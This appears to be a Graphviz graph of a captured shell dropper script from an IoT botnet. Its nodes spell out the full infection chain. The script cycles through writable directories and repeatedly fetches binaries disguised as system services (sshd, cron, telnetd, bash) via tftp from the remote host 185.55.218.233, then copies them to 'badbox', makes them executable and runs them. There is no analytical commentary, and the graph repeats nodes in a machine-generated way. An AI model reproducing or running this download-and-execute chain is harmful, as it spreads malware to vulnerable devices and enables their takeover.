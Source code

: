 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 14 [label="||,"];
14 [label="tftp -r ntpd -g 185.55.218.233 "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 34 [label="||,"];
34 [label="tftp -r sshd -g 185.55.218.233 "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 54 [label="||,"];
54 [label="tftp -r openssh -g 185.55.218.233 "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 74 [label="||,"];
74 [label="tftp -r bash -g 185.55.218.233 "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 94 [label="||,"];
94 [label="tftp -r tftp -g 185.55.218.233 "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 114 [label="||,"];
114 [label="tftp -r wget -g 185.55.218.233 "];
114 -> 116 [label=";,"];
116 [label="cat wget badbox "];
116 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 134 [label="||,"];
134 [label="tftp -r cron -g 185.55.218.233 "];
134 -> 136 [label=";,"];
136 [label="cat cron badbox "];
136 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 154 [label="||,"];
154 [label="tftp -r ftp -g 185.55.218.233 "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 174 [label="||,"];
174 [label="tftp -r pftp -g 185.55.218.233 "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 194 [label="||,"];
194 [label="tftp -r sh -g 185.55.218.233 "];
194 -> 196 [label=";,"];
196 [label="cat sh badbox "];
196 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 214 [label="||,"];
214 [label="tftp -r nut -g 185.55.218.233 "];
214 -> 216 [label=";,"];
216 [label="cat nut badbox "];
216 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 234 [label="||,"];
234 [label="tftp -r apache2 -g 185.55.218.233 "];
234 -> 236 [label=";,"];
236 [label="cat apache2 badbox "];
236 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 254 [label="||,"];
254 [label="tftp -r telnetd -g 185.55.218.233 "];
254 -> 256 [label=";,"];
256 [label="cat telnetd badbox "];
256 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
}
